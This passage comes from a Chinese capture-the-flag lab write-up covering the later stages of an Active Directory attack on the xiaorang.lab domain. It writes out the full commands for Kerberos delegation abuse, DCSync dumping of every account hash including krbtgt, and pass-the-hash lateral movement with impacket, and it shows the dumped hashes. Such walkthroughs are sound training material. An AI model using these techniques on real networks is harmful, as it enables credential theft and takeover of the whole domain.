proxychains4 -q impacket-getST -spn cifs/DC.xiaorang.lab -impersonate Administrator \
  -dc-ip 172.22.2.3 \
  'xiaorang.lab/MSSQLSERVER$' -hashes :3c1b3e9700d0402d4c2db8abed03b3c5
```

⚠️ 两个常见坑：

- **时间同步**​：报 `KRB_AP_ERR_SKEW`​ 就先 `ntpdate <DC_IP>`​ 或 `rdate -n <DC_IP>`。
- **主机名解析**​：确保能解析 `DC.xiaorang.lab`​，不行就写 `/etc/hosts`​：`<DC_IP>  DC.xiaorang.lab xiaorang.lab`。



‍

```bash
export KRB5CCNAME=Administrator@cifs_DC.xiaorang.lab@XIAORANG.LAB.ccache

# 方案 A：直接拿 DC 上的 SYSTEM shell
wmiexec.py -k -no-pass DC.xiaorang.lab
# 或
psexec.py  -k -no-pass DC.xiaorang.lab

# 方案 B：直接 DCSync 抓全域 hash（含 krbtgt，可做黄金票据）
secretsdump.py -k -no-pass DC.xiaorang.lab -just-dc

```

- 直接 DCSync 抓全域 hash（含 krbtgt，可做黄金票据）

```PY
➜  Brute4Road proxychains4 -q impacket-secretsdump -k -no-pass DC.xiaorang.lab -just-dc
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1a19251fbd935969832616366ae3fe62:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:65c595b82f28ee81a1c62b631c07ba8b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Vincent:1105:aad3b435b51404eeaad3b435b51404ee:b9ac194c56ba453bbd738e47065b3e6d:::
William:1106:aad3b435b51404eeaad3b435b51404ee:8853911fd59e8d0a82176e085a2157de:::
Marcus:1108:aad3b435b51404eeaad3b435b51404ee:3e72aa2e44539701589e32a13cf87970:::
Charles:1110:aad3b435b51404eeaad3b435b51404ee:d8742bc13771312f1627e472e16bc6bb:::
Alice:1111:aad3b435b51404eeaad3b435b51404ee:40cf46e4380e168d7bcdc762d6c38b2f:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:f70f9ee898325a33eb338a6441349ce5:::
CLIENT01$:1103:aad3b435b51404eeaad3b435b51404ee:cccdb0096bc0839f7099ac819cba7cda:::
MSSQLSERVER$:1104:aad3b435b51404eeaad3b435b51404ee:3c1b3e9700d0402d4c2db8abed03b3c5:::
```

## flag04

```py
proxychains4 -q  impacket-wmiexec -k -no-pass DC.xiaorang.lab
```




```py
 flag{52849531-581b-4dcd-82a8-895a45e094a5}
```

‍

## CLIENT01.xiaorang.lab

- 利用 域管理员 hash 登录  CLIENT01

```py
# 首选 psexec（445 单端口，给 SYSTEM）
proxychains4 -q impacket-psexec -hashes :1a19251fbd935969832616366ae3fe62 \
  'xiaorang.lab/administrator@172.22.2.34' -dc-ip 172.22.2.3

# psexec 若被 AV 拦/释放服务失败，换 smbexec
proxychains4 -q impacket-smbexec -hashes :1a19251fbd935969832616366ae3fe62 \
  'xiaorang.lab/administrator@172.22.2.34' -dc-ip 172.22.2.3

# 只想执行单条命令找 flag，用 atexec
proxychains4 -q impacket-atexec -hashes :1a19251fbd935969832616366ae3fe62 \
  'xiaorang.lab/administrator@172.22.2.34' 'whoami & type C:\Users\Administrator\Desktop\flag*'
```



‍

‍

‍





‍
